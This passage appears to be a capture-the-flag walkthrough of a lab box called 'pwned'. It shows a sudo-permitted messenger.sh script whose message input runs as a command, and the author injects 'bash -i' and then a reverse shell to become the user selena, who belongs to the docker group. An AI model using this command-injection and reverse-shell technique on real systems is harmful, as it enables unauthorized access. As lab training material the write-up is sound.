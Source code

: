 Check out the note in the directory:

```bash
ariana@pwned:~$ cat ariana-personal.diary
Its Ariana personal Diary :::

Today Selena fight with me for Ajay. so i opened her hidden_text on server. now she resposible for the issue.
```

Not very helpful anymore, since we have used the ssh key. Check `sudo` privileges:

```bash
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

I can run `messenger.sh` as selena. Check it out:

```bash
ariana@pwned:/home$ cat messenger.sh
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""
```

The vulnerability here is with the `msg` variable. Replace it with a command, and it will execute in the place of `$msg`. In particular, replace it with `bash -i` to spawn an interactive shell. I get no prompt, but I get some output to indicate there is code execution. To fix this, I passed it a reverse shell and caught it

```bash
selena@pwned:/home/ariana$ whowhoami
selena
selena@pwned:/home/ariana$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```
